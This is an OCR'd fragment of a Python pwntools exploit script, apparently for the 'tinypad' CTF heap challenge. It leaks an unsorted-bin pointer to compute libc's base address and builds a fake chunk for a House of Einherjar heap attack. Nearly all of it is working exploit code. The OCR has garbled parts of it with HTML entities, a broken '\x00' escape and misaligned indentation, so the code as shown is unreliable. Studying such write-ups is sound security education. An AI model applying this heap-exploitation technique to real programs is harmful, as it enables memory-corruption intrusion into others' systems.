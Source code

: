```python
    # but cause unlink feture, the idx0's fd and bk won't change

    # so idx0 will leak the unsorted bin addr

    delete(3)

    p.recvuntil(' # CONTENT: ')

    data = p.recvuntil('\n', drop=True)

    unsorted_offset_arena = 8 + 10 * 8

main_arena = u64 (data.ljust (8, &#39;x00&#39;)) - unsorted_offset_arena
    libc_base = main_arena - main_arena_offset

    log.success('main arena addr: ' + hex(main_arena))

    log.success('libc base addr: ' + hex(libc_base))



    # 3. house of einherjar

    add(0x18, 'a' * 0x18)  # idx 0

    # we would like trigger house of einherjar at idx 1

    add(0x100, 'b' * 0xf8 + '\x11')  # idx 1

    add(0x100, 'c' * 0xf8)  # idx 2

    add(0x100, 'd' * 0xf8)  #idx 3



    # create a fake chunk in tinypad's 0x100 buffer, offset 0x20

    tinypad_addr = 0x602040

    fakechunk_addr = tinypad_addr + 0x20

fakechunk_size = 0x101
fakechunk = p64 (0) + p64 (fakechunk_size) + p64 (fakechunk_addr) + p64 (
fakechunk_addr)
edit (3, &#39;d&#39; * 0x20 + fakechunk)


    # overwrite idx 1's prev_size and

    # set minaddr of size to '\x00'

    # idx 0's chunk size is 0x20

    diff = heap_base + 0x20 - fakechunk_addr

    log.info('diff between idx1 and fakechunk: ' + hex(diff))

    # '\0' padding caused by strcpy

    diff_strip = p64(diff).strip('\0')

    number_of_zeros = len(p64(diff)) - len(diff_strip)

```